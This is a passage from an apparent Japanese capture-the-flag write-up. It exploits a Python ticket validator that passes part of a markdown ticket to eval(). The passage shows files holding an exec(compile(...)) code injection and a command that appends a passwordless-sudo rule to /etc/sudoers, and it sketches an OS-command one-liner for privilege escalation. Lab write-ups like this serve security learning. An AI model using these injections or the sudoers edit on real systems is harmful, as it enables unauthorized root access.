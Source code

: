 ```python
                else:
                    return False
    return False

def main():
    fileName = input("Please enter the path to the ticket file.\n")
    ticket = load_file(fileName) # 読み込むことができるのは拡張子が".md"のファイル
    #DEBUG print(ticket)
    result = evaluate(ticket) # 読み込んだ.mdファイルの名前を引数に取る
    if (result):
        print("Valid ticket.")
    else:
        print("Invalid ticket.")
    ticket.close

main()
```

チケット(拡張子が.mdのファイルに記載される)の内容が適切かチェックするPythonスクリプトのようで、下記のようなフォーマットで記載されていることが期待されている。eval()で評価される4行目が悪用できそう。

```markdown
# Skytrain Inc 
## Ticket to 
__Ticket Code:__
**【mod 7 == 4になる値】+
```

環境内に存在する.mdファイルの内容を確認する。

```
development@bountyhunter:~$ cat tamil.md
# Skytrain Inc
## Ticket to print("hey")
__Ticket Code:__
**32+exec(compile(open("test.py").read(),"test","exec")) **
##Issued: 2021/04/06
#End Ticket

development@bountyhunter:~$ cat tamil2.md
echo "user ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers
development@bountyhunter:~$ cat test1.md
print("hello world")
development@bountyhunter:~$ cat test.md
echo "user ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers
```

`tamil.md`が適切なフォーマットに近い内容なので、これを改造して使用する。"**"から始まる4行目で必要な値は`mod 7 == 4になる値`。eval内でcatコマンド等を使用してファイルの中身を読み取れば良いので、その次の行のvalidationNumberのチェックは無視して良い。今回は`11+0==11`にする。最後にAND演算子を続けて、OSコマンド実行を行うPythonスクリプトを実行させる。

書き方は色々あると思うが、下記のページのものを参考にワンライナーを書いた。

> https://programmer.help/blogs/python-sandbox-escape.html
